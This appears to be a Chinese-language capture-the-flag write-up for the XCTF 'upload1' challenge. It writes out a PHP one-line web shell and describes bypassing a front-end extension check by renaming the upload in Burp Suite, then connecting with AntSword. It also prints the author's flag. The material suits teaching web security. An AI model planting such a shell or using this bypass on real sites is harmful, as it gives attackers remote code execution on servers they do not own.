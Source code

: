 # upload1

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=8f2c8d98-0a36-4744-b57f-0850a4c468d8_2)

打开提供的场景，发现是个平平无奇的文件上传。检查一下前端的代码。

![js](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/js.png)

有点简陋的格式检查代码，直接通过查看后缀名来判断是不是图片（甚至连传个jpeg后缀都不行……）。那这个就很简单了，尝试传个php一句话木马。

```php
<?php @eval($_POST['shell']);?>
```

这里eval会把参数里的字符串当作php代码执行，@是错误抑制符，防止出错后报错（不这么搞要是报错了就被网站管理员发现了(･･;)）。<?php 和 ?> 是php固定的标记，表示这两个符号里包括的是PHP代码。$_POST读取post请求。

- #### $_POST
- > 当 HTTP POST 请求的 Content-Type 是 application/x-www-form-urlencoded 或 multipart/form-data 时，会将变量以关联数组形式传入当前脚本。

为了绕过前端的检查，我们需要改一下php文件的后缀名。但是改了后就直接传上去虽然不会弹出提示，但是我们也连不了。笨笨的计算机看到jpg后缀就不会往php去想了，所以我们要做点手脚，上传后再把后缀改回来。这里可以使用burpsuite的拦截功能。

- #### Tips
- > 使用burpsuite内置的浏览器可以在不用配置代理的情况下实现拦截包，方便快捷。
- > 成功拦截到包以后点击HTTP History，右键目标包选择Send to Repeater，这样就可以修改包内容并预览发送出去的结果了。

这里我们把请求的filename选项改成"flag.php",点击Send就可以看到返回的结果了。

![bp](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/burpsuite.png)

把显示的上传路径复制粘贴到蚁剑中（右键->添加数据），并填写密码“shell”（这个根据之前一句话木马$_POST所填的参数决定），就能找到flag了。

![蚁剑](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/antSword.png)

- #### Flag
- > 此题flag不同人不一样，我的flag：cyberpeace{59a333a44d9d5e1d354c8c3cfca7aa24}

